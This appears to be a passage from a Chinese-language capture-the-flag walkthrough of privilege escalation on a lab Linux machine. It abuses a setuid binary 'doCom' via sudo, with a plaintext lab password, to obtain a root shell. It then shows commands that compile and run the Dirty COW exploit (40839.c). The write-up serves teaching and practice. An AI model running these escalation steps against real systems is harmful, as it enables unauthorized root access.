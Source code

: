 ```bash
bash-4.1$ file doCom
file doCom
doCom: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
```

`doCom`有suid权限，且是一个可执行文件

![image-20241108205312565](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241108205312565.png)

首先判断uid是否是`503`,然后就可以执行命令

```bash
bash-4.1$ sudo -u fristi ./doCom id
sudo -u fristi ./doCom id
[sudo] password for fristigod: LetThereBeFristi!

uid=0(firefart) gid=100(users) groups=100(users),502(fristigod)
bash-4.1$ sudo -u fristi ./doCom bash
sudo -u fristi ./doCom bash
```

成功拿到root

#### 脏牛提权

```bash
gcc -pthread 40839.c -o dirty -lcrypt
```

```bash
./dirty
```

